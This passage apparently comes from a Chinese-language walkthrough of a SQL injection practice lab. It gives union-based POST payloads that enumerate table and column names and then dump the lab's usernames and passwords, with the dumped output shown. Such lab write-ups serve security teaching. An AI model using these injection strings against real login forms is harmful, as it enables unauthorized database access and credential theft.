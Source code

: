![](https://gitee.com/YatJay/image/raw/master/img/202202070939331.png)

**爆当前数据库表名**：emails referers uagents users

```sql
uname=-9' union select group_concat(table_name),2 from information_schema.tables where table_schema=database()--+&passwd=admin&submit=Submit
```

![](https://gitee.com/YatJay/image/raw/master/img/202202070944542.png)

**爆字段名：**id username password

```sql
uname=-9' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' --+&passwd=admin&submit=Submit
```

![](https://gitee.com/YatJay/image/raw/master/img/202202070946326.png)

**爆字段值：**

Dumb>Dumb,

Angelina>I-kill-you,

Dummy>p@ssword,

secure>crappy,

stupid>stupidity,

superman>genious,

batman>mob!le,

admin>admin,

admin1>admin1,

admin2>admin2,

admin3>admin3,

dhakkan>dumbo,

admin4>admin4,

admin5>admin5

```sql
uname=-9' union select group_concat(username,'>',password),2 from users--+&passwd=admin&submit=Submit
```

![](https://gitee.com/YatJay/image/raw/master/img/202202070952060.png)

**注意：**

**如果是使用hackbar直接提交时，--+有时会报错，需要使用#注释，使用burp可以是--+，因为POST提交的数据，所以不用进行url编码，直接显示的是POST原文**

**总结：**
